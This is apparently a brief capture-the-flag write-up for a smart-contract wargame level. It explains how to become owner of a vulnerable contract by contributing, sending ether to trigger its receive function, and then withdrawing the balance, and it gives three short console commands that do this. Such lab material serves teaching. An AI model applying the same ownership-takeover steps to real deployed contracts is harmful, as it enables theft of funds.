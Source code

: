 ## Solution Overview
1. Looking at the contract, we'd want to trigger the receive fallback function
2. In order to send our address as the owner, we'd need to have a non zero contribution and msg.value > 0
3. So we'd first need to call contribute successfully, then send the contract a small amount of ether
4. And once we're the contract owner, we can then call the withdraw function

## Code
```
await contract.contribute({value: toWei("0.0001")})
await sendTransaction({from: player, to: contract.address, value: toWei("0.0001")})
await contract.withdraw()
```